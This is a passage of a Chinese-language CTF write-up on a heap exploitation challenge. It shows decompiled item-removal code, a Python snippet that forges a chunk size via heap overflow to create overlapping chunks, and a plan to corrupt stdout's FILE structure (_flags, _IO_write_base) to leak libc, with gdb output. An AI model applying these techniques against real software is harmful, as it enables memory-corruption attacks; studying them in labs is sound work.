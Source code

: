 当然利用house of force最后是无法利用的，还是参考各种house of roman 。

需要结合fastbin attack和unsortbin attack，不过比赛我并没有成功实现（逃。



**最后看了WP**

发现自己思路其实没有偏离很多。还是house of roman可以结合堆溢出对fd和bk进行低地址写，覆盖IO FILE（stdout）进行地址泄漏。其实当时没有分析出来的是remove的机制。

在***remove_iterm***中，每次free都会将iterm中的所有数据向前0x10字节。例如free(10)之后，再次free(10)就会free到原本的chunk11。之前我分析错了，以为每次都会清除所有的iterms。

```c++
      for ( i = 0; i <= 10; ++i )
      {
        v0 = 16LL * i;
        v1 = (__int64 *)((char *)&itemlist + 16 * (i + 1));
        v2 = *v1;
        v3 = v1[1];
        *(_QWORD *)((char *)&itemlist + v0) = v2;
        *(_QWORD *)((char *)&itemlist + v0 + 8) = v3;
      }
```

DEMO

利用堆溢出来伪造chunk，实现堆重叠。然后通过切割法（我称之为。。只是一个trick，方便自己记忆），将main_arena+0x88地址被写到了free chunk_c的fd和bk。

```python
malloc(0x20,"A"*0x10) #0
malloc(0x40,"B"*0x10) #1
malloc(0x60,"C"*0x10) #2
malloc(0xa0,"D"*0x10) #3

edit(0,0x30,"E"*0x10+p64(0)*3+p64(0xc1)) #B_size <--B+C size=0x50+0x70
free(1) #free B(fake size)
free(1) #free C
malloc(0x40,"B"*0x10) #let main_arena+0x88 -->free chunk_c's fd
```

***IO_File泄露地址***

思路：修改stdout的***flag***位为0xfbad1800,然后将***_IO_write_base***最后一个字节改小。就能leak出libc地址。

```
gef➤  p _IO_2_1_stdout_
$2 = {
  file = {
    _flags = 0xfbad2887, 
    _IO_read_ptr = 0x7ffff7dd26a3 <_IO_2_1_stdout_+131> "\n", 
    _IO_read_end = 0x7ffff7dd26a3 <_IO_2_1_stdout_+131> "\n", 
    _IO_read_base = 0x7ffff7dd26a3 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_base = 0x7ffff7dd26a3 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_ptr = 0x7ffff7dd26a3 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_end = 0x7ffff7dd26a3 <_IO_2_1_stdout_+131> "\n", 
    ...
    _codecvt = 0x0, 
    _wide_data = 0x7ffff7dd17a0 <_IO_wide_data_1>, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0x0, 
    _mode = 0xffffffff, 
    _unused2 = '\000' <repeats 19 times>
  }, 
  vtable = 0x7ffff7dd06e0 <_IO_file_jumps>
}
```
